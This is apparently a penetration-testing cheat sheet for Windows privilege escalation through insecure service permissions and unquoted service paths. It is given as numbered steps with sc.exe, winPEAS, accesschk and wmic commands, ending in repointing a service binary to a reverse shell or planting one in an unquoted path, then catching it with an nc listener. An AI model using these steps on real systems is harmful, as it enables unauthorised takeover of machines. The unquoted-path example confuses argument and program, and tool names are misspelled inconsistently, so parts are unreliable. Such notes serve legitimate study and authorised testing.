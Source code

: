 ## Service Exploits
* Query the configuration of a service:
`sc.exe qc <ServiceName>`
* Query the current status of a service:
`sc.exe query <ServiceName>`
* Modify a configuration option of a service: 
`sc.exe config <ServiceName> <option>= <value>`
* Start/Stop a service: 
`net start/stop <ServiceName>`

### Service Misconfiguration Types

### Insecure Service Properties
Note: If you cannot start and stop a service you will not be able to exploit this. You can check this by running the below accesschk
`.\accesscheck /accepteula -uvqc servicename`
1. Run winPEAS to enumerate service information:
`.\winPEASany.exe quiet servicesinfo`
2. From your shell confirm your access permissions to the service
`.\accesschck.exe /accepteula -uqvwc <username> <servicename>`
3. Query the service configuration
`sc qc <servicename>`
4. Query current state of the service
`sc query <servicename>`
5. If you can, set the service binary to the location of your reverse shell
`sc config <servicename> binpath= "\"C:\reverse.exe""`
6. Start your nc listener
7. Start/restart the service

### Unquoted Paths
* Exectuables in windows can be run without the extension (e.g. whoami.exe > whoami)
* Windows treats everything after a space as arguments for the program (e.g. program.exe arg1 arg2)
* This leads to ambiguity when using absolute path that contain spaces and are not surrounded by quotes
* If we can write to a location that Windows checks before the actual exectuable, we can trick the service into executing our exectuable instead

1. Enumerate services using winpeas
`.\winPEASany.exe quiet servicesinfo`
2. You can also find unquoted paths using wmic
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`
3. If either command returns a path to an executable that does not contain quotes AND you can write to one of the folder before the exectuable, you have an unquoted service vulnerability.
4. Check that you can start and stop that service
`.\accesscheck /accepteula -uvqc <username> <servicename>`
5. Check for write permissions in the existing binary paths to the service
`.\accesschck.exe /accepteula -uwdq "C:\"`
`.\accesschck.exe /accepteula -uwdq "C:\Program Files\"`
`.\accesschck.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
6. If you can, create a reverse shell in the path with the name of the folder that would be passed as an argument. For example, if the command is `"C:\Program Files\Unquoted Path Service\" "Common"` where `Common` is passed as an argument in this case to a program called `C:\Program Files\Unquoted Path Service.exe`, we can create a file called `Common.exe` to be executed when the service starts.
7. Start a nc listener
8. Start the service
